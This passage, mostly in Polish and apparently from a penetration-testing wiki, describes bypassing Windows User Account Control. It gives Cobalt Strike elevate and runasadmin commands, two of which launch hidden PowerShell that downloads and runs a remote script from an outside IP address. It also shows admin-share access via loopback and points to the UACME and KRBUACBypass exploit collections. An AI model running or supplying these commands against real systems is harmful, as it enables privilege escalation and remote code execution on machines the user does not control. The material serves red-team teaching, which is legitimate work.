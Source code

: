 > [!WARNING]
> **Wygląda na to, że ten trik już nie działa**
```bash
net use Z: \\127.0.0.1\c$
cd C$

#Or you could just access it:
dir \\127.0.0.1\c$\Users\Administrator\Desktop
```
### Ominięcie UAC za pomocą Cobalt Strike

Techniki Cobalt Strike będą działać tylko wtedy, gdy UAC nie jest ustawione na maksymalny poziom bezpieczeństwa.
```bash
# UAC bypass via token duplication
elevate uac-token-duplication [listener_name]
# UAC bypass via service
elevate svc-exe [listener_name]

# Bypass UAC with Token Duplication
runasadmin uac-token-duplication powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
# Bypass UAC with CMSTPLUA COM interface
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```
**Empire** i **Metasploit** mają również kilka modułów do **obejścia** **UAC**.

### KRBUACBypass

Dokumentacja i narzędzie w [https://github.com/wh0amitz/KRBUACBypass](https://github.com/wh0amitz/KRBUACBypass)

### Eksploity obejścia UAC

[**UACME** ](https://github.com/hfiref0x/UACME), który jest **kompilacją** kilku eksploity do obejścia UAC. Zauważ, że będziesz musiał **skompilować UACME używając visual studio lub msbuild**. Kompilacja stworzy kilka plików wykonywalnych (jak `Source\Akagi\outout\x64\Debug\Akagi.exe`), będziesz musiał wiedzieć **który potrzebujesz.**\
Powinieneś **być ostrożny**, ponieważ niektóre obejścia mogą **wywołać inne programy**, które **powiadomią** **użytkownika**, że coś się dzieje.

UACME ma **wersję kompilacji, od której każda technika zaczęła działać**. Możesz wyszukiwać technikę wpływającą na twoje wersje:
```
PS C:\> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```
Also, using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page you get the Windows release `1607` from the build versions.
